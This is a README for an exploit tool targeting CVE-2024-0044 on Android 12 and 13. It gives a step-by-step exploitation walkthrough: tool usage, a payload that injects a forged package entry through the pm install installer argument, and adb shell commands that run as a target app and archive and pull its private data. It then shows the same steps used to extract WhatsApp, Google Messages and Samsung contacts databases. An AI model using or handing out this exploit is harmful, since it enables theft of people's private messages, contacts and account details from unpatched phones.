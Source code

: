 ## CVE 2024 0044
CVE-2024-0044, identified in the createSessionInternal function of the PackageInstallerService.java file, is a high-severity vulnerability affecting Android versions 12 and 13. This vulnerability allows an attacker to perform a "run-as any app" attack, leading to local escalation of privilege without requiring user interaction.The issue arises due to improper input validation within the createSessionInternal function. An attacker can exploit this by manipulating the session creation process, potentially gaining unauthorized access to sensitive data and performing unauthorized actions on the affected device​ 

The exploit was discovered by [Meta security ](https://rtx.meta.security/exploitation/2024/03/04/Android-run-as-forgery.html)

The proof of concept was summarised and shared by [Tiny hack](https://tinyhack.com/2024/06/07/extracting-whatsapp-database-or-any-app-data-from-android-12-13-using-cve-2024-0044/?s=03)

Details about the security patch can be found at [Android security bulletin](https://source.android.com/docs/security/bulletin/2024-03-01)

## Prerequisites
1. Enable USB debugging in your mobile phone and connect it to your machine using a usb cable or wireless debugging
2. Download any apk to your machine you can use [F-DROID](https://f-droid.org/)

## How to use the tool 
```
python3 cve_2024_0044.py -h
                                                                               
##########################################################################################
###############S%%#####################################################%%S################
###############%++*S##################################################?++?################
################%++*S###############################################S*++?#################
#################%+++%#############################################S*++%##################
##################S*++%###########################################%+++%###################
###################S*++?#########SSS%%?????***?????%%%SS#########%++*S####################
#####################?++*##S%%?**+++++++++++++++++++++++**??%S##?++*S#####################
######################?++**+++++++++++++++++++++++++++++++++++**++*#######################
###################S%?*++++++++++++++++++++++++++++++++++++++++++++?%S####################
#################%?+++++++++++++++++++++++++++++++++++++++++++++++++++*%S#################
##############S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++?S###############
############S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S#############
##########S?+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S###########
#########%+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++?##########
#######S*+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++*S########
######%++++++++++++++*%SS%?+++++++++++++++++++++++++++++++++++?%SS%*++++++++++++++%#######
#####%++++++++++++++*######%+++++++++++++++++++++++++++++++++%######?++++++++++++++?######
####?+++++++++++++++*######S+++++++++++++++++++++++++++++++++%######?+++++++++++++++?#####
###%+++++++++++++++++*%SS%?+++++++++++++++++++++++++++++++++++?%SS%*+++++++++++++++++?####
##S+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%###
##*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++S##
#%+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++?##
#*++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++S#
S+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++%#      
        
usage: cve_2024_0044.py [-h] -P P -A A

CVE-2024-0044: run-as any app @Pl4int3xt

options:
  -h, --help  show this help message and exit
  -P P        package name (default: None)
  -A A        apk file path (default: None)
```
``-P`` is used to specify the target package name you want to run as 

``-A`` to specify the apk file to push in the device
## Exploitation
Run the tool 
```python3 cve_2024_0044.py -P com.whatsapp -A /home/pl4int3xt/Downloads/F-Droid.apk```

A ```payload.txt``` file like this will be generated
```
PAYLOAD="@null
victim 10289 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
```
#### The tool automates some parts and other parts are manual. You can exit after generating the payload and run all the commands manually or you can continue with the instructions 

### Next you'll need to connect to your device using adb shell and paste in the payload and make sure you get a ``Success`` message back after the last command
```
pl4int3xt ~>  adb shell
pixel:/ $ PAYLOAD="@null
> victim 10289 1 /data/user/0 default:targetSdkVersion=28 none 0 0 1 @null"
pixel:/ $ pm install -i "$PAYLOAD" /data/local/tmp/F-Droid.apk
Success
```

### Next we get the whatsapp data using the following commands
```
pixel:/ $ mkdir /data/local/tmp/wa/                                                                            
pixel:/ $ touch /data/local/tmp/wa/wa.tar
pixel:/ $ chmod -R 0777 /data/local/tmp/wa/
pixel:/ $ run-as victim
pixel:/data/user/0 $ tar -cf /data/local/tmp/wa/wa.tar com.whatsapp
```
Create a temporary directory: `mkdir /data/local/tmp/wa/`

Create a placeholder for a tar file: `touch /data/local/tmp/wa/wa.tar`

Set wide-open permissions: `chmod -R 0777 /data/local/tmp/wa/` to ensure any user can read, write, and execute within this directory.

Switch user context: `run-as victim` to gain the same permissions as the "victim" user.

Archive the target application's data: `tar -cf /data/local/tmp/wa/wa.tar com.whatsapp`, creating a tarball of the WhatsApp data directory.

### Finally pull the data
```adb pull /data/local/tmp/wa/wa.tar```

You can extract the data using `7z` or any other tool

You can use [Whatsapp chat exporter](https://github.com/KnugiHK/Whatsapp-Chat-Exporter) to convert it to HTML

This allows you to get whatsapp data without a root access on your device

# Pulling google messages

Just change the package name as follows
```
plaintext@archlinux ~/D/c/p/cve_2024_0044 (feature)> python3 ./cve_2024_0044.py -P com.google.android.apps.messaging -A ~/Down
loads/F-Droid.apk
```
Follow the above instructions and after pulling the  `wa.tar` file untar it and open the conversations in  `com.google.android.apps.messaging/databases/bugle_db` using sqlitebrowser or any other tool

# Pulling contacts
Tested for samsung device. For other devices check the package name for the contacts provider.
```
plaintext@archlinux ~/D/c/p/cve_2024_0044 (feature)> python3 ./cve_2024_0044.py -P com.samsung.android.app.contacts -A ~/Downloads/F-Droid.apk
```
Follow the above instructions and after pulling the `wa.tar` file untar it and open the contacts in  `com.samsung.android.providers.contacts/databases/contacts2.db` using sqlitebrowser or any other tool. The db file contains all the user email accounts info with the contacts list



 
